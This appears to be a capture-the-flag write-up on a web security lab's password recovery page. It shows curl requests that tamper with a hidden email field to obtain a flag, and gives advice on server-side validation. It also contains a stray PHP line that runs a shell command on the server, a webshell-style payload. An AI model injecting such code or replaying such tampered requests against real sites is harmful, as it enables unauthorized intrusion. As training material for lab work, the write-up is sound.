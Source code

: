# Page password

## Notes

<?php system(‘find / -name *flag*’); ?>

inspect and there is a hidden input form 

we can see an email

```bash
curl -F 'Submit=Submit' -X POST http://172.20.10.9/\?page\=recover 

curl -d "email=webmaster@borntosec.com&Submit=Submit" -X POST http://172.20.10.9/index.php\?page\=recover
```

1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

## Use

[Hidden fields use] exposes the inner workings of your application, and exposes data to trivial tampering, replay, and validation attacks


## Prevention

Data send to the user must be validated on the server once the last page has been received

